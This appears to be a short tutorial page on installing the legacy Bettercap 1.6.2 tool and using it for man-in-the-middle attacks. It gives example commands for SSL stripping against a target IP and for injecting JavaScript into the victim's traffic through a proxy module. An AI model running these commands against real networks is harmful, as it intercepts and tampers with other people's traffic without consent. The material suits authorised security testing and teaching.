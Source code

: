 ```yaml
---
description: Bettercap 1.6.2 is a tool for man in the middle attack and ssl strip . You will find a series of practical example commands for running Bettercap 1.6.2 and getting the most of this powerful tool.
---
```



## Bettercap 1.6.2 Installation

BetterCAP is a powerful, flexible, and portable tool created to perform various types of MITM attacks against a network

Bettercap 1.6.2 is legacy tool, but it performs ssl strip much better then Bettercap 2.x

Install Ruby Gem

```bash
apt install -y ruby-full libpcap-dev
gem update --system
gem install bettercap
```

Bettercap 1.6.2 installs the executable to /usr/local/bin/bettercap

Bettercap 2.x installs the executable to /usr/bin/bettercap

Both Bettercap 1.6.2 and 2.x shares the same executable name. In order to privet any collisions we will rename the Bettercap 1.6.2 executable to `bettercap1.6.2`.

```bash
mv /usr/local/bin/bettercap /usr/local/bin/bettercap1.6.2
```

From this point you can run bettercap1.6.2 for `Bettercap 1.6.2` and bettercap for `Bettercap 2.x`



## Bettercap 1.6.2 SSL Strip Examples

**Basic SSL Strip Example**

```bash
bettercap1.6.2 -X -T 192.168.1.104 --proxy
```

**SSL Strip With XSS Example**

```bash
bettercap1.6.2 -X -T 192.168.3.104 --proxy --proxy-module injectjs --js-data "<script>alert('SSL STRIP, Script Injection')</script>"
```

## Dbug

To find that Bettercap installation from ruby gems:

```bash
gem environment
```

the path should be under **GEM PATHP** for example:

```bash
/var/lib/gems/2.7.0/gems/bettercap-1.6.2
```
